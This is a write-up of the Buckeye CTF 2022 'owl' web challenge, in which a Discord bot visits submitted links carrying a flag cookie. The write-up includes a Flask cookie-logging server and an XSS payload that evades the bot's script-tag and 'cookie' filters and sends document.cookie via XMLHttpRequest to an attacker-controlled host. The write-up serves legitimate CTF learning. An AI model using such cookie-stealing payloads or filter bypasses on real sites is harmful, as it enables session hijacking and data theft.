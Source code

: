 ```yaml
---
title: Buckeye CTF 2022 - owl - Writeup 
date: 2022-11-11 -500
categories: [ctf]
tags: [buckeye2022, writeup, web]
---
```


![challenge-description](/assets/owl/owl-1.png)

## How it works

Alright, so *owl#9960* is a Discord bot and in the challenege description we have a [source code](https://github.com/cscosu/buckeyectf-2022-public/blob/master/web/owl/index.js) for it. Let's quickly walk trough how it works and how we can get the flag.

In order to trigger any response from *owl*, you have to slide into its Discord DMs and send a message:

```javascript
client.on("message", msg => {
	if(!(msg.channel instanceof discord.DMChannel))
		return;
```

The owl expects the message to be a website link which is validated with the following regex rule:

```javascript
let url = /https?:\/\/(www\.)?([-a-zA-Z0-9@:%._\+~#=]{1,256}\.[a-zA-Z0-9()]{1,6}\b)([-a-zA-Z0-9()@:%_\+.~#?&//=]*)/i
```

If the message contains a valid URL, it will call the ```scout()``` function, otherwise the bot will respond with:
```
✨🦉 hoot hoot 🦉✨"
```

The first thing ```scout()``` function checks is if the URL provided in the message contains ```/owl```.

```javascript
if(!url.includes("owl")) {
			resolve("hoot... hoot hoot?");
			return;
		}
```

If it does, then then the javascript browser sets a cookie with ***the flag***:

```javascript
browser.setCookie({
			name: "flag",
			domain: host,
			value: process.env.FLAG
		});
```
This will be our ***target*** - we will somehow have to make the browser gives us the flag cookie.

Before *owl* bot visits the website, it scraps the website HTML content and passes it to ```fly()``` function. Here, the website content udergoes a *safe* check:

```javascript
let bad = /<script[\s\S]*?>[\s\S]*?<\/script>/gi;

	return new Promise((resolve, reject) => {
		if(content.match(bad)) {
			resolve("hoot hoot!! >:V hoot hoot hoot hoot");
			return;
		}
	
		if(content.includes("cookie")) {
			resolve("hoooot hoot hoot hoot hoot hoot");
			return;
		}
```

First, it checks if there are any strings that match the pattern of ```<script> </script>``` and then it checks if the word ```cookie``` is included anywhere in the HTML content.

If both checks fail, then the website is ***absolutely*** safe and the bot proceeds to visit it (like a normal user would):

```javascript
browser.visit(url, () => {
			let html = browser.html();
			if(html.toLowerCase().includes("owl")) {
				resolve("✨🦉 hoot hoot 🦉✨");
			} else {
				resolve("");
			}
		});
```

We get a bonus ```✨🦉 hoot hoot 🦉✨``` if the website content contains ```owl``` keyword. And that's it. Now how can we exploit it?


## Solution #1

Okay, so since we know that `owl` browser sets the flag as a cookie, we can just read the cookies that were sent with request to our server. The steps would be to:
* setup a public server
* send a link to our server that contains `owl` in URL
* receive request that `owl` browser made to your the and just check the cookies it came with 

Now, since I happened to have a public facing server, I setup a very simple Flask server with `/owl` route and just made Flask print the cookies in a request.

```python
from flask import Flask, render_template, make_response, request

app = Flask(__name__)

@app.route('/owl')
def index():
    print(request.cookies.get('flag'))
    return render_templat('index.html')
```

![challenge-description](/assets/owl/owl-2.png)

And there it is, we got the flag!. Now, you can totally do this with other tools, like ```RequestBin```. And if you can't create an `/owl` route, just add `owl` as a request parameter, like this: ```<URL:PORT/?owl>```, and it will work just fine.

## Solution #2

Now, suppose there is no way to read request cookies. 

Then, the second solution is a to create a website with [XSS](https://portswigger.net/web-security/cross-site-scripting) payload on it that will execute javascript code and sent browser cookie as a request parameter. This, however, can be a little tricky since ```owl``` checks for use of ```<script>``` tags (which are commonly used for XSS) and the word ```cookie```.

An interesting thing I learnt during this challenge is that apparently [*zombie.js* browser](http://zombie.js.org/) does not properly render ```<img>``` tags. So I spent way too much time trying to trigger XSS with ```<img onerror=>``` without ever successfully getting the XSS. Ultimately, a more reliable way to get it was with ```<body onload=>``` tags - ```onload``` property, just like `onerror`, can execute javascript code.

The other thing we have to bypass is the word `cookie`. We can decimal enocode it, like this:

 ```&#0000100&#0000111&#0000099&#0000117&#0000109&#0000101&#0000110&#0000116&#0000046&#0000099&#0000111&#0000111&#0000107&#0000105&#0000101&#0000059``` 

 which decodes to ```document.cookie```. However, for some reason I could not get it work. I tested it on myself with XSS payload many times and it worked just fine though - again, I think it might have had something to do with *zombie.js* browser HTML rendering.
  
 A cool trick I cannot take credit for is to use javasript ```toLowerCase()``` function:

 ```javascript
 var c00kie = document['COOKIE'.toLowerCase()]
 ```

 The bot only checks for exact match on `cookie`, so making it upper case will not ring any alarms. In order to make an HTTP request, we can use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/Using_XMLHttpRequest). 

 So finally, we can spin up a public server and put our payload in ```index.html``` file: 


 ```html
 
 <!DOCTYPE html>
<html>

<body onload="var c00kie = document['COOKIE'.toLowerCase()]; var xhr = new XMLHttpRequest(); xhr.open('GET', '<URL:PORT>/?c00kie=' + c00kie, true); xhr.send();">
 <p> definitely not XSS </p>   

</body>
</html>
 ```

 And sure enough, if we look at the server logs, we get a URL encoded flag  (don't mind a test flag I setup earlier):

 ![challenge-description](/assets/owl/owl-5.png)

 Needless to say, if we were to exploit an XSS vulnerability in the wild, then we could not have a peak into vulnerable server logs like I just did - we would check the logs at ```<URL:PORT>``` server instead for the cookie. We can see though that a request is properly made so everything works fine.

Obviously, it's way more effort than the first solution given that you can just print out request cookies, but at least it gives you some cool XSS practice!